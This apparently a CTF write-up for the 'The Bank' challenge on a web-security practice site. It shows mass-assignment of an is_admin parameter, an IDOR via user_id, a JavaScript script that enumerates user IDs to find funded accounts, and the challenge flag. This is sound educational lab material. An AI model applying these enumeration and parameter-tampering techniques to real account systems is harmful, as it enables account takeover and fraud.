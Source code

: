 # WebSecDojo.com - The Bank
## My first post :)!!
### Prerequisites
<ul>
  <li>HTML and Javascript experience.</li>
  <li>Basic knowledge of HTTP requests and API endpoints.</li>
  <li>Developer Panel (I recommend using firefox) or similar software that enables sending web requests.</li>
</ul>
### Exploring the website
  After entering the challenge I was in `https://websecdojo.com/thebank/index.php`.<br/>
  Since I didn't have an account I thought it'd be better to attempt to create one so I clicked `Don't have an account? Register here`.
### Trying to register
  First because I know it's a CTF challenge focused on HTTP requests I opened the network tab.<br/>
  Entered fabricated data and submitted the web-form.
  Found a `POST` request to this URL: `https://websecdojo.com/thebank/register.php`.
  The request's had a parameter named `is_admin` the was set to `0`. When changed to `1`, resending the request will result in a `GET` request to the URL: `https://websecdojo.com/thebank/dashboard.php`.
### The dashboard
  Go to `https://websecdojo.com/thebank/dashboard.php` in your browser.
  While the network tab is open try to fill out the form, the request returns failure as response.
  We can see in the request that in the URL there's a parameter named `user_id`.
  Going through the dashboard's HTML I found the function that submits the form.
### Examining the form submission
Examine this simple function:
```js
        function handleTransfer(event) {
            event.preventDefault();
            
            const form = document.getElementById('transferForm');
            const formData = new FormData(form);
            
            // Get user_id from URL or default to 0
            const urlParams = new URLSearchParams(window.location.search);
            const userId = urlParams.get('user_id') || '0';
            
            // Add user_id to formData
            formData.append('user_id', userId);
            
            fetch('api.php?user_id=' + userId, {
                method: 'POST',
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                const messageDiv = document.getElementById('transferMessage');
                if (data.success) {
                    messageDiv.className = 'alert alert-success mt-3';
                    messageDiv.textContent = 'Transfer successful!';
                    form.reset();
                } else {
                    messageDiv.className = 'alert alert-danger mt-3';
                    messageDiv.textContent = data.message || 'Transfer failed. Please try again.';
                }
            })
            .catch(error => {
                const messageDiv = document.getElementById('transferMessage');
                messageDiv.className = 'alert alert-danger mt-3';
                messageDiv.textContent = 'An error occurred. Please try again.';
                console.error('Error:', error);
            });
            
            return false;
        }
```
        
Basically, the function checks the URL for parameters, if none found the `user_id` will be set as `0`.
### Trying to switch into a user that has funds
I added `?user_id=0` to the URL resulting in this: `https://websecdojo.com/thebank/dashboard.php?user_id=0`.
Now the user's named `User Bobbetta` instead of `Admin` and yet still has no balance.
Trying to fill out the form again and submitting it results in failure response.
Trying different IDs return the same user.
Assuming the IDs can be enumerated i wrote this script (ChatGPT wrote it for me ;)):
```js
let id = 0;
const maxAttempts = 5000; // adjust as needed
const delay = 200; // ms delay between requests to avoid hammering the server

function checkNextId() {
    if (id > maxAttempts) {
        console.log("Reached maximum attempts.");
        return;
    }

    fetch(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, {
        credentials: 'include' // keep session cookies
    })
    .then(res => res.text())
    .then(html => {
        // Look for the admin HTML marker
        if (html.includes('<span id="username">Admin</span>')) {
            console.log(`🎯 Found Admin at user_id=${id}`);
            console.log(`URL: https://websecdojo.com/thebank/dashboard.php?user_id=${id}`);
            // Optionally open in new tab:
            window.open(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, '_blank');
        } else if (!html.includes('User Bobbetta')) {
            console.log(`✅ Found non-Bobbetta user at id=${id}`);
        } else {
            console.log(`⛔ Skipped id=${id}`);
        }
    })
    .catch(err => {
        console.warn(`Error at id=${id}:`, err);
    })
    .finally(() => {
        id++;
        setTimeout(checkNextId, delay);
    });
}

checkNextId();

```
Pasted it in the console that's in the Developer Panel and found two users with IDs `10` and `11`.

### Switching into user that has funds
I entered this URL: `https://websecdojo.com/thebank/dashboard.php?user_id=10`
Got into a user named `User John Doe` with `$10000`.
Filled out the form with fabricated information.
The website showed failure yet the request returned success.

### Getting the flag
This one took me a while...
Most people ofen overlook certain parts of HTTP requests. In this Case it was the `Response Headers`.
Looking there you will find the flag header: `x-flag: flag#Th@tWas3asyN0?`

### Conclusions
Examine the request thoroughly, you can use ChatGPT for this if you're lazy.

### Important remarks
I would like to thank Avi who created this fun CTF challnge and gave me the clue to the last part. I overlooked the Response Headers.
Check out his awesome Web CTFs website: <a href="https://websecdojo.com/" target="_blank">https://websecdojo.com/</a>


